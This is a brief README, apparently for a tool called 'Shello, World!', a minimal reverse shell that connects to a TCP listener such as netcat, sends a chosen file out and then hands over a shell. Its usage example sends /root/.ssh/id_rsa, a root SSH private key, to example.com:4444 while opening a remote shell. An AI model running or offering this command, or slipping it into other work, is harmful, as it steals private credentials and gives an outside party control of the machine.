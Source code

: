 Shello, World!
==============
A very simple reverse shell, almost `Hello, World!` simple.  It connects to
plaintext TCP listener (e.g. netcat), sends the contents of a file back, and
then hooks up a shell to the connection.

Usage
-----
```sh
./shello_world addr:port filename
```

### Example
```sh
./shello_world example.com:4444 /root/.ssh/id_rsa
```
